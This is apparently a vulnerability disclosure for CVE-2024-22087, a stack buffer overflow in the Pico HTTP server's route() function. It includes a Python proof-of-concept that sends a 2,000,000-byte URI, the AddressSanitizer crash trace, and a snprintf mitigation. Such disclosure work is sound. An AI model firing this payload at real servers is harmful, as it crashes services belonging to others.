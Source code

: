 ### CVE-2024-22087

I discovered a remote stack buffer overflow vulnerability in the Pico HTTP server through commit f3b69a6 in the function void route() at main.c, line 81:

```
 GET(uri) { 
   char file_name[255]; 
   sprintf(file_name, "%s%s", PUBLIC_DIR, uri); 
```

Any project that utilizes pico is vulnerable to remote code execution.  I have outlined the reproduction steps below, and offer some mitigations that can be implemented to protect yourself.

### Makefile Modifications

The following modifications were made to the Makefile to compile pico with address sanitizer and debug symbols. The purpose of this is to track and verify the location of the stack buffer overflow vulnerability:

```
all: server

clean:
	@rm -rf *.o
	@rm -rf server

server: main.o httpd.o
	gcc -o server $^ -fsanitize=address -g

main.o: main.c httpd.h
	gcc -c -o main.o main.c -fsanitize=address -g

httpd.o: httpd.c httpd.h
	gcc -c -o httpd.o httpd.c -fsanitize=address -g

```

### Compiling Pico

```
$ make
```

### Proof of Concept Python3 Script

Save the following script to a file named poc.py. The script will send an HTTP request with a malformed URI  (2,000,000 bytes long) to Pico and wait for a response:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8000))
sock.send(b"GET /"+b"C"*2000000+b"HTTP/1.1\r\nHost:localhost:8000\r\n\r\n")
response = sock.recv(4096)
sock.close()

```

### Starting Pico

```
./server
```

### Executing our Python3 Script

```
# python3 poc.py
```

### Address Sanitizer Output

The following output was produced by address sanitizer: 

```
==960119==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7f214c10015f at pc 0x7f214e09215c bp 0x7ffe88c08220 sp 0x7ffe88c079e0
WRITE of size 65487 at 0x7f214c10015f thread T0                                                                                                                                 
    #0 0x7f214e09215b in __interceptor_vsprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1765
    #1 0x7f214e09233e in __interceptor_sprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1808
    #2 0x556476f2cd71 in route /home/kali/projects/fuzzing/pico/main.c:81
    #3 0x556476f2e336 in respond /home/kali/projects/fuzzing/pico/httpd.c:222
    #4 0x556476f2d199 in serve_forever /home/kali/projects/fuzzing/pico/httpd.c:67
    #5 0x556476f2c4d3 in main /home/kali/projects/fuzzing/pico/main.c:13
    #6 0x7f214de456c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #7 0x7f214de45784 in __libc_start_main_impl ../csu/libc-start.c:360
    #8 0x556476f2c3b0 in _start (/home/kali/projects/fuzzing/pico/server+0x33b0) (BuildId: f62da5ef1f726838c2864638756f4930a324ceb6)

Address 0x7f214c10015f is located in stack of thread T0 at offset 351 in frame
    #0 0x556476f2c7e0 in route /home/kali/projects/fuzzing/pico/main.c:44

  This frame has 2 object(s):
    [32, 52) 'index_html' (line 48)
    [96, 351) 'file_name' (line 80) <== Memory access at offset 351 overflows this variable
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1765 in __interceptor_vsprintf
Shadow bytes around the buggy address:
  0x7f214c0ffe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7f214c0fff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7f214c0fff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7f214c100000: f1 f1 f1 f1 00 00 04 f2 f2 f2 f2 f2 00 00 00 00
  0x7f214c100080: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x7f214c100100: 00 00 00 00 00 00 00 00 00 00 00[07]f3 f3 f3 f3
  0x7f214c100180: f3 f3 f3 f3 00 00 00 00 00 00 00 00 00 00 00 00
  0x7f214c100200: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7f214c100280: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7f214c100300: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7f214c100380: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==960119==ABORTING

```

This error is caused by writing data that exceeds the allocated buffer size. In this case, the buffer 'file_name' defined in the route function with a size of 255 bytes is overflowing. The overflow is occurring in the sprintf call, where you concatenate PUBLIC_DIR with uri or other strings to form a file path. If the combined length of these strings exceeds 255 characters, it will overflow the file_name buffer.

### Mitigation

To quickly mitigate this vulnerability, replace sprintf with snprintf, which allows you to specify the maximum number of characters to be written, including the null terminator. This prevents the stack buffer overflow by truncating the string if it exceeds the specified length.

Buffer overflow vulnerability:

```
sprintf(file_name, "%s%s", PUBLIC_DIR, uri);
```

Modified code preventing a buffer overflow:

```
snprintf(file_name, sizeof(file_name), "%s%s", PUBLIC_DIR, uri);
```

### References

* https://cwe.mitre.org/data/definitions/121.html
* https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
* https://github.com/google/sanitizers/wiki/AddressSanitizer
* https://www.cve.org/CVERecord?id=CVE-2024-22087
